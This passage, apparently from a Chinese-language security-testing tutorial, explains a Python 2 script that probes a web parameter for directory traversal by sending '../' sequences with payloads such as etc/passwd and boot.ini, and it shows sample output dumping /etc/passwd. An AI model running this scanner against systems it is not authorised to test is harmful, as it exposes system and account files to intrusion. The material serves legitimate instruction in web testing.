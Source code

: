 以下是使用此脚本时生成的输出示例：

```
Parameter vulnerable

Attack string: ../../../../../etc/passwd

Get me /etc/passwd! File Contents:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

## 它是如何工作的…

我们导入此脚本所需的库，就像我们在模块中完成的所有其他脚本一样：

```
url = sys.argv[1]
```

然后，我们以 URL 的形式进行输入。当我们使用`requests`库时，我们应该确保我们的 URL 与表单请求所期望的匹配，即`http(s)://url`。如果您出错，请求将提醒您：

```
payloads = {'etc/passwd': 'root', 'boot.ini': '[boot loader]'}
```

我们在字典中建立每次攻击中要发送的有效负载。每对中的第一个值是我们希望尝试加载的文件，第二个值肯定位于该文件中。第二个值越具体，出现的误报越少；然而，这可能会增加假阴性的机会。请随意在此处包含您自己的文件：

```
up = "../"
i = 0
```

我们提供 up 目录快捷方式`../`并将其分配给 up 变量，我们将循环计数器设置为`0`：

```
for payload, string in payloads.iteritems():
  while i < 7:
```

`Iteritems`方法允许我们遍历字典，获取每个键和值，并将它们分配给变量。我们将第一个值指定为有效负载，将第二个值指定为字符串。然后，我们对循环设置上限，以防止它在发生故障时永远重复。我已将其设置为`7`，但您可以将其设置为任何值。请记住，web 应用程序的目录结构可能高于`7`：

```
req = requests.post(url+(i*up)+payload)
```

我们通过获取根 URL 并根据循环和负载添加当前数量的 up 目录来设计请求。然后在 post 请求中发送：

```
if string in req.text:
      print "Parameter vulnerable\r\n"
      print "Attack string: "+(i*up)+payload+"\r\n"
      print req.text
      break
```
